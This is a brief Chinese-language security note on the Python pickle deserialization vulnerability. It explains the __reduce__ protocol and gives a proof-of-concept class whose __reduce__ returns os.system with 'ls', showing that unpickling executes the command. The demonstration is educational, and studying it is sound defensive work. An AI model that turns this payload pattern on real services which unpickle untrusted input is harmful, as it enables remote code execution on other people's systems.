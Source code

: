 ```yaml
---
title: "pickle"
date: 2016-03-25 00:41
---
```


## pickle 序列化漏洞

* \_\_reduce\_\_(self)

当定义扩展类型时（也就是使用Python的C语言API实现的类型），如果你想pickle它们，你必须告诉Python如何pickle它们。 \_\_reduce\_\_ 被定义之后，当对象被Pickle时就会被调用。

它要么返回一个代表全局名称的字符串，Pyhton会查找它并pickle，

要么返回一个元组。这个元组包含2到5个元素，其中包括：**一个可调用的对象，用于重建对象时调用**；**一个参数元素，供那个可调用对象使用**；

被传递给 __setstate__ 的状态（可选）；

一个产生被pickle的列表元素的迭代器（可选）；

一个产生被pickle的字典元素的迭代器（可选）

```
import os
import pickle

class exp(object):

    def __reduce__(self):
        cmd = 'ls'
        return (os.system, (cmd,))

pickle.dumps(exp())
>  "cposix\nsystem\np0\n(S'ls'\np1\ntp2\nRp3\n."

pickle.dumps((os.system, ('ls',)))
> "(cposix\nsystem\np0\n(S'ls'\np1\ntp2\ntp3\n."

pickle.loads(pickle.dumps(exp()))
# it will do os.system(cmd)
> read.txt

pickle.loads(pickle.dumps((os.system, ('ls',))))
> (<function posix.system>, ('ls',))
```
